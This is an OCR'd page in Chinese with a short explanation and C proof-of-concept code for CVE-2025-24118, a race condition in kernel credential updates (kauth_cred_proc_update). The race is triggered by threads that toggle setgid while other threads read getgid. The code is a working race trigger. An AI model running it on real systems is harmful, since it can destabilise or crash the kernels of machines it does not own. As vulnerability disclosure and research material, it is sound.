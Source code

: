  
概念证明  
  
kauth_cred_proc_update每当更改时就会出现错误  
p_ucred，但大多数工作流程不会改变凭据，因此这不是问题。要引起竞争条件，  
p_ucred必须在发生写入的同时发生读取。换句话说，我们需要捕捉  
zalloc_ro_mut通过  
p_ucred发生变化的点，并且在内核中，相应的流程可以发生为  
setuid、  
setgid、等。  
setgroups以下 PoC 演示了使用 setgid 的竞争条件。  
  
```
// Joseph Ravichandran (@0xjprx)
// PoC for CVE-2025-24118.
// Writeup: https://jprx.io/cve-2025-24118
...

gid_t rg; // real gid
gid_t eg; // effective gid

void *toggle_cred(void *_unused_) {
    while(true) { // [1]
        setgid(rg);
        setgid(eg);
    }

    return NULL;
}

void *reference_cred(void *_unused_) {
    // [2]
    volatile gid_t tmp;
    while(true) tmp = getgid();
    
    return NULL;
}

int main(int argc, char **argv) {
    pthread_t pool[2 * NUM_THREADS];
    rg = getgid();
    eg = getegid();

    if (rg == eg) {
        fprintf(stderr, "Real and effective groups are the same (%d), they need to be different to trigger kauth_cred_proc_update\n", rg);
        exit(1);
    }

    printf("Starting %d thread pairs\n", NUM_THREADS);
    printf("rgid: %d\negid: %d\n", rg, eg);
    for (int i = 0; i < NUM_THREADS; i++) {
        pthread_create(&pool[(2*i)+0], NULL, toggle_cred, NULL);
        pthread_create(&pool[(2*i)+1], NULL, reference_cred, NULL);
    }

    for (int i = 0; i < NUM_THREADS; i++) {
        pthread_join(pool[(2*i)+0], NULL);
        pthread_join(pool[(2*i)+1], NULL);
    }

    printf("Done\n");
    return 0;
}
```  
  